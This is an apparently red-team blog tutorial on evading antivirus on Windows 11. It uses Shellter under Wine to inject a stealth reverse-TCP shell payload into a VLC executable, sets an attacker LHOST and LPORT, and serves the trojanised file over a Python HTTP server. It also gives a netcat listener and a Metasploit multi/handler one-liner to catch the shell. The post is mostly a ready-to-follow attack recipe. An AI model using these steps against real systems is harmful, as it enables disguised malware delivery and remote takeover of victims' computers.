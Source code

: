```yaml
---
title: "Anti-Virus Evasion"
date: 2024-04-25 22:56:24 +0800
categories: [AVEvasion]
tags: [RedTeaming]
---
```


# Antivirus Evasion on Windows 11

Using Shellter, I got a reverse shell on Windows 11. Below are the steps I followed:

## Steps:

1. Run Shellter using Wine:
   ```bash
   wine shellter.exe
   ```

2. After Shellter opens, choose:
   ![Anti-Virus Evasion 01](assets/img/AV-Evasion/AV-Evasion-01.png)

   Write the path of the target executable program: \
   ![Anti-Virus Evasion 02](assets/img/AV-Evasion/AV-Evasion-02.png)
   ```bash
   /home/kali/Downloads/vlc32.exe
   ```

3. Choose `(Y)` for stealth mode: \
   ![Anti-Virus Evasion 03](assets/img/AV-Evasion/AV-Evasion-03.png)

4. Choose `(L)` for local injection: \
   ![Anti-Virus Evasion 04](assets/img/AV-Evasion/AV-Evasion-04.png)

5. Select `(5)` for `shell_reverse_tcp` payload: \
   ![Anti-Virus Evasion 05](assets/img/AV-Evasion/AV-Evasion-05.png)

6. Set `LHOST` to your attacker machine's IP address:
   ```bash
   LHOST 192.168.1.17
   ```
   ![Anti-Virus Evasion 06](assets/img/AV-Evasion/AV-Evasion-06.png)

7. Set `LPORT` to the port you will be listening on (e.g., `4444`):
   ```bash
   LPORT 4444
   ```
   ![Anti-Virus Evasion 07](assets/img/AV-Evasion/AV-Evasion-07.png)

8. Press Enter and wait ... for the process to finish

## Sending the File to the Target

To send the generated `.exe` file to the target, you can use a simple HTTP server on Kali Linux:

9. In the path of the generated executable file, open a terminal and start an HTTP server:
   ```bash
   python -m http.server 8888
   ```

## Opening a Listener on the Attacker Machine

You can open a listener in one of the following two ways:

### 1. Using Netcat:
```bash
nc -nlvp 4444
```

### 2. Using Metasploit:
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/shell_reverse_tcp; set LPORT 4444; set LHOST 192.168.1.17"
```

When the Metasploit console opens, type `exploit` or `run` to start the handler:
```bash
msf6 exploit(multi/handler)> exploit
```

## Video Tutorial

Check out the following video for more details:

<!-- Click the image to watch the tutorial! -->
<!-- [![Anti-Virus Evasion Tutorial](https://img.youtube.com/vi/03mbGTtrVHI/0.jpg)](https://youtu.be/03mbGTtrVHI) -->

<iframe width="560" height="315" src="https://www.youtube.com/embed/03mbGTtrVHI" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
